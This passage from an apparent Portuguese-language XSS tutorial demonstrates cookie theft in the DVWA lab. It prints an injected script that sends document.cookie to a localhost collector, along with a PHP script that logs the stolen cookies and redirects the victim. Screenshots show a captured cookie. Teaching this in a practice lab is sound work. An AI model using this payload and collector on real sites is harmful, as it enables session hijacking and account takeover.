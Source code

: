 
_Certo, tomadas as devidas medidas, vejamos um outro exemplo de código vulnerável à nossa injeção._

_Indo um pouco além de nossa última execução, vamos tentar alternativas à exibição de um nome na tela, pois cá entre nós, um nome na tela não põe medo **( a não ser que seja "wannacry ).**
Vejamos uma simulação do que ocorre caso queiramos fazer um roubo de **Cookies**._

_Certo, primeiro, criemos uma simples página html com código javascript em seu corpo:_

    <!DOCTYPE html>
    <html>
    <body>
    <script type ="text/javascript"> 
    document.location = 'http://127.0.0.1/passaocookie.php?pwn=' + document.cookie; 
    </script>
    <script type="text/javascript">
    document.cookie = "username=Deadlock";
    document.write(document.cookie);
    </script>
    </body>
    </html>

_sua saída deve ser a escrita de *username=Deadlock*._

**" *Ah, mas quem é que vai por um código assim na página?"***

_Creio que ninguém, mas, sabendo que há como fazer injeção de código, Você mesmo pode fazer a injeção dele na página. Duvidas? ok, vamos ao **Dvwa** simular a situação._

_o código:_

    <script>document.location = 'http://127.0.0.1/passaocookie.php?pwn=' + document.cookie;</script>

a saída:

![the error](https://i.imgur.com/HOlWi2s.png)

_Então não, não é tão impossível quanto parece. Sigamos!_

---

_Certo, criemos agora um script php responsável por realizar o roubo dos cookies._

    <?php  
    header ('Location:https://deadlock.team');
            $cookies = $_GET["pwn"];
            $file = fopen('saida.txt', 'a');
            fwrite($file, $cookies . "\n\n");
    ?>

_Ao abrirmos a página html, imediatamente somos redirecionados ao site [Deadlock.team](https://Deadlock.team). Porém, ao observarmos o log de acesso com o php, temos a seguinte resposta:_

![cookiestealer](https://i.imgur.com/IO9v7yv.png)

_E cá está nosso cookie roubado._

---
_Porém, caso não consigamos executar as tags  `<script>`, precisamos de outro modo de ter execução de código no servidor. Vejamos algum exemplo._
